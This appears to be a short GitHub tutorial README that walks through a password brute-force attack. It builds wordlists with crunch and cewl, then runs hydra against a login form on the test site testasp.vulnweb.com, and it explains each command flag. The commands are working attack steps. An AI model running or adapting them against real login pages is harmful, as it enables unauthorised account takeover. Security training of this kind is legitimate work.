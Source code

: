 # hydra-Brute-Force-Attack
Hydra Brute-Force Password Attack

Create a password list using custom words or patterns using CRUNCH<br>
<pre>crunch 6 8 abc123! passwords.txt</pre>
breakdown:<br>
crunch -> Tool<br>
6 -> Minimum Character<br>
8 -> Maximum Character<br>
abc123! -> custom word<br>
passwords.txt -> filename where words are stored<br>
<br>

create a username list from website using CEWL<br>
<pre>cewl -d 2 -w user.txt http://testasp.vulnweb.com</pre>
Breakdown:<br>
cewl -> Tool<br>
-d 2 -> Depth of two links<br>
-w -> Wordlist<br>
user.txt -> Filename<br>
http://testasp.vulnweb.com -> Website URL<br>
<br>

Brute-Force Attack using HYDRA
<pre>hydra -l Admin123 -P /usr/share/wordlists/rockyou.txt testasp.vulnweb.com http-post-form "/Login.asp:tfUName=^USER^&tfUPass=^PASS^&Login=Login:Invalid Login" -V</pre>
Breakdown:<br>
hydra -> Tool<br>
-l -> username (If Known) - If not known then -L with word.txt
Admin123 -> known Username
-P -> Password list
/usr/share/wordlists/rockyou.txt or pass.txt you made earlier throughh crunch.
testasp.vulnweb.com -> Target website
http-post-form -> Form using POST method
/Login.asp: -> Login page of the target website
tfUName -> usernmae field (You may find using inspect elements of the browser and selecting username field you may find HTML tag property name=tfUName)
&tfUPass -> password field (You may find using inspect elements of the browser and selecting password field you may find HTML tag property name=tfUPass)
&Login=Login: -> For Login button
Invalid Login -> Check for the login error message when entering wrong password therefore hydra keeps trying to attempt until login is successful and invalid login is not thrown back.
-V - Verbose 
